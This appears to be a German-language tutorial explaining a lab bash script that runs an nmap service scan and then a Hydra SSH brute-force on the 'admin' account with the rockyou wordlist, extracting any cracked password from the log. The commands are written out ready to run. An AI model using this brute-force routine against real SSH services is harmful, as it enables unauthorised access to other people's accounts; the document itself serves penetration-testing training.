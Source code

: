 
# 🛡️ Red-Team Angriffsskript – Erklärung

Dieses Bash-Skript führt automatisiert einen **Penetrationstest** durch: Ein **Nmap-Portscan** sowie ein **Brute-Force-Angriff** auf einen SSH-Dienst mittels Hydra. Nach erfolgreicher Ausführung wird ein Analyse-Skript aufgerufen.

---

## 📜 Allgemeine Struktur

```bash
#!/bin/bash
set -euo pipefail
```

- `#!/bin/bash`: Führt das Skript mit der Bash-Shell aus.
- `set -euo pipefail`: Sicheres Bash-Scripting
  - `-e`: Abbruch bei Fehlern
  - `-u`: Abbruch bei Verwendung undefinierter Variablen
  - `-o pipefail`: Fehler in Pipes führen zum Abbruch

---

## 📁 Verwendete Variablen

```bash
LOG_DIR="/logs"
MAIN_LOG="$LOG_DIR/attack.log"
NMAP_LOG="$LOG_DIR/nmap.txt"
HYDRA_LOG="$LOG_DIR/hydra.txt"
TARGET_HOST="ssh-target"
WORDLIST="/usr/share/wordlists/rockyou.txt"
```

- Speichert Log-Dateien zentral in `/logs`
- Zielsystem ist `"ssh-target"`
- Nutzt die verbreitete Wordlist `rockyou.txt` für Passwortangriffe

---

## 📝 Log-Funktion

```bash
log() {
    local msg="$1"
    echo "[$(date '+%Y-%m-%d %H:%M:%S')] $msg" | tee -a "$MAIN_LOG"
}
```

- Gibt Nachrichten mit Zeitstempel aus
- Schreibt gleichzeitig ins Terminal **und** in die Logdatei

---

## ✅ Initial Checks

```bash
mkdir -p "$LOG_DIR"
chmod 777 "$LOG_DIR"
```

- Erstellt das Log-Verzeichnis und gibt volle Rechte (nicht ideal für Produktionssysteme)

### Tool-Check

```bash
for tool in nmap hydra; do
    if ! command -v "$tool" >/dev/null 2>&1; then
        log "Tool nicht gefunden: $tool"
        exit 1
    fi
done
```

- Prüft, ob die Tools `nmap` und `hydra` vorhanden sind

### Wordlist-Check

```bash
if [ ! -f "$WORDLIST" ]; then
    log "Wordlist nicht gefunden: $WORDLIST"
    exit 1
fi
```

---

## 🔍 Nmap-Portscan

```bash
nmap -sV -p 22,80,443 "$TARGET_HOST" -oN "$NMAP_LOG" >> "$MAIN_LOG" 2>&1
```

- Scannt SSH (22), HTTP (80) und HTTPS (443)
- Erkennt Dienstversionen (`-sV`)
- Speichert Ergebnisse in `nmap.txt` und zusätzlich im Hauptlog

---

## 🔓 Hydra SSH-Brute-Force

```bash
hydra -l admin -P "$WORDLIST" -t 8 -vV -f -e nsr ssh://$TARGET_HOST:22 -o "$HYDRA_LOG" >> "$MAIN_LOG" 2>&1
```

- Führt einen Brute-Force-Angriff durch:
  - Nutzer: `admin`
  - Passwortliste: rockyou.txt
  - `-t 8`: 8 Threads parallel
  - `-f`: Stoppt beim ersten Treffer
  - `-e nsr`: Testet leere, gleiche oder umgekehrte Passwörter

### Passwort extrahieren

```bash
FOUND_PASS=$(grep -o "password: [a-zA-Z0-9]*" "$HYDRA_LOG" | tail -1 | cut -d' ' -f2)
```

- Sucht nach erfolgreich gefundenem Passwort in der Ausgabe

---

## 🧪 Analyse und Abschluss

```bash
log "[+] Angriff abgeschlossen: $(date '+%Y-%m-%d %H:%M:%S')"
```

- Loggt Ende der Aktion

```bash
/analyze.sh
```

- Führt ein externes Analyse-Skript aus (nicht im Code enthalten)

---

## 📊 Zusammenfassung

| Abschnitt        | Zweck                                          |
|------------------|------------------------------------------------|
| Vorbereitung     | Log-Verzeichnis, Tool- & Wordlist-Check        |
| Nmap-Scan        | Erkennt offene Ports und Dienste               |
| Hydra-Angriff    | Bruteforce-Versuch auf SSH                     |
| Passwortanalyse  | Sucht nach erfolgreichem Passwort              |
| Abschluss        | Meldet Fertigstellung, startet Analyse         |

---

> ⚠️ **Hinweis:** Dieses Skript ist **nur für Schulungs-/Testumgebungen** gedacht. Der Einsatz in echten Netzwerken ohne Erlaubnis ist illegal!
